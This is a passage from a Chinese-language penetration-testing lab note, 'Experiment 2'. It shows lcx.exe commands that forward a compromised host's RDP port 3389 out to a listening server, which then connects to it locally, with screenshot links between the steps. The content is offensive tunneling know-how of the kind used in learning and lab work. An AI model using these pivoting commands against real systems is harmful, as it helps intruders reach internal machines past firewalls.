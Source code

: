 

- 现在可以正常访问了

****

#### 实验二

```cmd
# 外网服务器开启监听
lcx.exe -listen 4444 12345
```

![image-20241107195951075](./assets/image-20241107195951075.png)

```cmd
# 将被控主机端口转发到外网服务器
lcx.exe -slave 公网ip 端口 被控服务器ip 端口
lcx.exe -slave 192.168.71.54 4444 127.0.0.1 3389
```

![image-20241107200100783](./assets/image-20241107200100783.png)

```cmd
# 在外网服务器连接本地12345端口
127.0.0.1:12345
```
